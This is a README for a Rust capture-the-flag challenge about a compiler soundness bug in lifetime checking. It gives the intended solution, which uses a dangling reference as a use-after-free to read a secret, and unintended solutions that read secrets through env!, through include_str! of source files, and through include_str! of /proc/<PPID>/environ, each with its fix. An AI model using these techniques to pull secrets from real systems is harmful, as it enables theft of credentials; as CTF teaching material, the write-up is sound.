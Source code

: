 # a_happy_life

Demo for a CTF challenge based on [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860).

## Idea

This challenge exploits a unsoundness hole discovered in Rust lifetime deduction system. When a type like `&'a &'b ()` is encountered, the compiler implicitly relies upon `'b: 'a`, which could be broken by contravariance.

See [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860) for the original issue. A more theoretical yet neater explanation can be found on https://counterexamples.org/nearly-universal.html.

## Environment

* `rustc` on `PATH`. Tested with these compilers:
  * `rustc 1.76.0-nightly (d86d65bbc 2023-12-10)`
  * `rustc 1.74.0 (79e9716c9 2023-11-13) (built from a source tarball)`
* `clippy-driver` on `PATH`. Tested with these `clippy` versions:
  * `clippy 0.1.76 (d86d65bb 2023-12-10)`
* Flag in environment variable `FLAG`
* Windows `HeapAlloc` or glibc malloc (`ptmalloc`) allocator

Run this command to start the challenge (either Release or Debug build is okay):

```bash
cargo run -r
# or
cargo run
```

Or use the Docker image:

```bash
docker build -t csmantle/a_happy_life .
```

Then edit and run the example Python exploit. (You need to have `pwntools` in the Python environment.)

```bash
python3 ./script/sol.py
```

You should get output like this, assuming you have set up your server on `localhost:10000` and set `FLAG` to `flag{Example!Rust_u4f_is_s000_fun!}`:

```text
[x] Opening connection to localhost on port 10000
[x] Opening connection to localhost on port 10000: Trying ::1
[+] Opening connection to localhost on port 10000: Done
[*] Flag length: 35
[*] Closed connection to localhost port 10000
[+] Flag found: flag{Example!Rust_u4f_is_s000_fun!}
```

## Problem

Given the following program snippet, find appropriate code to fill in the two blanks (`part_1.in` and `part_2.in`) so as to read variable `_secret` under the conditions that:

* No `unsafe` code allowed
* No references to `_secret`
* No `std` linkage except the global allocator

```rust
// main.rs
#![no_std]
#![allow(clippy::all)]
#![forbid(unsafe_code)]
#![forbid(clippy::disallowed_macros)]

extern crate my_proxy;
extern crate alloc;
use alloc::string::String;

include!("part_1.in");

fn main() {
    let x = include!("part_2.in");
    let _secret = String::from("@@FLAG@@");
    my_proxy::print(&x);
}
```

Crate `my_proxy` is a wrapper crate linked to `std`, but it pulls in only the global allocator and the `println!` macro.

```rust
// my_proxy.rs
pub use std::alloc::System;

#[global_allocator]
static GLOBAL: System = System;

pub fn print(s: &str) {
    println!("my_proxy::print(s: &str) says: {}", s);
}
```

## Solutions

### Intended solution

`part_1.in`:

```rust
// Create "any-to-any" lifetime cast function.
fn aux<'a, 'b, T>(_: Option<&'a &'b ()>, v: &'b T) -> &'a T { v }

fn exp<'c, 'd, T>(x: &'c T) -> &'d T {
    let f: fn(Option<&'d &'d ()>, &'c T) -> &'d T = aux;
    f(None, x)
}
```

`part_2.in`:

```rust
{
    // Create a local variable whose memory location may coincide with `_secret`.
    // The length of the `&'static str` literal should be the same as `_secret`,
    // so as to maximize the likelihood of such coincidence.
    let local = String::from("aaaabaaacaaadaaa");
    // Make the reference dangle!
    exp(&local)
}
```

#### Explanation

The value `local` is dropped once it leaves its scope. But as the compiler thinks that `x`, as a reference to `local`, has a longer lifetime, it dangles after the destruction of `local`. Now, `x` could possibly (in fact, almost always, with `-C opt_level=0` and glibc malloc or Windows HeapAlloc) point to the memory space subsequently allocated for `_secret`, creating a use-after-free scenario.

### Unintended solution 1 (fixed in `v0.1.1`)

`part_1.in`:

```rust

```

`part_2.in`:

```rust
{ env!("FLAG", "what?") }
```

#### Analysis

Macro `core::env!` could be used to fetch env vars at compile time.

#### Fix

Remove exposed `FLAG` env var when calling `rustc`.

### Unintended solution 2 (fixed in `v0.1.2`)

`part_1.in`:

```rust

```

`part_2.in`:

```rust
{ include_str!("main.rs") }
```

#### Analysis

Macro `core::include_str!` could be used to include arbitrary files at compile time.

#### Fix

Add randomized UUID to filename `main.rs`. No other actions are required, since `core::include_str!` will not leak anything else given that the privileges of filesystem are properly set.

### Unintended solution 3 (unconfirmed, fixed in `v0.1.4`)

On the first connection, supply these input:

`part_1.in`:

```rust

```

`part_2.in`:

```rust
{ include_str!("/proc/self/status") }
```

Then write down the parent PID (`PPID`) in the output.

On the second connection, supply these:

`part_1.in`:

```rust

```

`part_2.in`:

```rust
{ include_str!("/proc/<PPID>/environ") }
```

#### Analysis

Trivial.

#### Fix

Ban `core::include_str!` and `core::include_bytes!` with Clippy rules.

